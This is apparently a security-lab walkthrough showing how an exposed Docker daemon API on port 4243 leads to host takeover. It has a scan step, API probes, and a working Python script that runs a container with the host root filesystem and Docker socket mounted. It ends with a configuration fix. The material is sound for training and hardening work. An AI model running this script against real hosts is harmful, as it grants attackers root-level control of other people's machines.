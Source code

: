 # **`Docker Daemon Configuration`**

###### A malicious user who gains access Docker API, can gain access to the host machine with root permissions.


#####Step 1:
   * Run an nmap scan on the VM to get the list of ports that are open. `nmap 127.0.0.1 -sV -p 4243`

![](img/daemon-config-1.png)


Step 2: To check access to the docker API, access `http://localhost:4243/version` and `http://localhost:4243/images/json`
 
![](img/daemon-config-2.png)


Step 3: Activate the python virtual environment and run the script that will run a malicious container via. the docker API.

    #!/usr/bin/env python
    import docker
    client = docker.DockerClient(base_url='tcp://127.0.0.1:4243')
    
    # client = docker.DockerClient(base_url='tcp://<IP>:<PORT>')

    
    malicious_image = 'we45/docker-ui:latest'
    client.images.pull(malicious_image)
    port_key = {"{0}/tcp".format(6080): ('0.0.0.0', 6080)}
    
    client.containers.run(image=malicious_image, ports=port_key, volumes={'/': {'bind': '/rootFS/', 'mode': 'rw'}, '/var/run/docker.sock': {'bind': '/var/run/docker.sock', 'mode': 'rw'}}, detach=True)


![](img/daemon-config-3.png)


Step 4: On the browser, access the port mentioned in the script. `http://127.0.0.1:6080/vnc.html`

![](img/daemon-config-4.png)


Step 5: `Right-Click` and open the terminal. The user has UI access to the Host machine. 

![](img/daemon-config-5.png)


Step 6: To fix this issue, open `/etc/default/docker` and comment `DOCKER_OPTS`

![](img/daemon-config-6.png)


